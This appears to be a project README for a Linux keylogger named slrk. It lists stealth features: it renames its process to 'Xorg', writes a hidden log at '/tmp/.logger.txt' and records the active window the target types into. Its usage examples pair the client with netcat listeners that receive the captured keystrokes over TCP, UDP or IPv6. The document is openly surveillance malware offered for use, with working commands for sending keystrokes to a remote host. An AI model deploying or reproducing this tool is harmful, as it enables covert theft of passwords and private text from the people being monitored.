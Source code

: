 # Simple_Local&Remote_Keylogger

##DESCRIPTION:

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- Keys are mapped on US keyboard.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##USAGE:
```
#./slrk [OPTIONS]
```
##OPTIONS:
```
-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLE:

####`[TCP]`
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
####`[UDP]`
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
####`[IPv6]`
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```	
